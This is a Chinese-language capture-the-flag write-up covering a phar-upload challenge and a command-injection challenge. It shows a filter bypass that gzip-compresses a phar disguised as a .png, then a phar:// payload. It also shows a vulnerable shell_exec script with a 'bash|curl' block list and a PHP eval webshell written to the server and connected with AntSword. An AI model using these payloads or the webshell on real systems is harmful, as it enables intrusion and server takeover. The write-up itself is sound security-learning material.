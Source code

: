 生成phar文件

上传发现提示，Hacker?

修改成png后缀

提示过滤了__HALT_COMPILER

```
!preg_match("/__HALT_COMPILER/i",FILE_CONTENTS) 
```

使用gzip进行压缩，上传成功

payload

```
file=phar://upload/321532365639f31b3b9f8ea8be0c6be2.png
```

访问2.php即可

## Week5

### So Baby RCE Again

源代码

```php
<?php
error_reporting(0);
if(isset($_GET["cmd"])){
    if(preg_match('/bash|curl/i',$_GET["cmd"])){
        echo "Hacker!";
    }else{
        shell_exec($_GET["cmd"]);
    }
}else{
    show_source(__FILE__);
}
```

无回显RCE

```
首先看一下目录
cmd=ls / | tee 1
发现
ffll444aaggg
尝试读取，读取不出来
写个木马吧
cmd=echo '<?php eval($_POST[1]);?>' > 1.php
蚁剑连接
```

没有查看权限

![image-20240303174012402](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240303174012402.png)
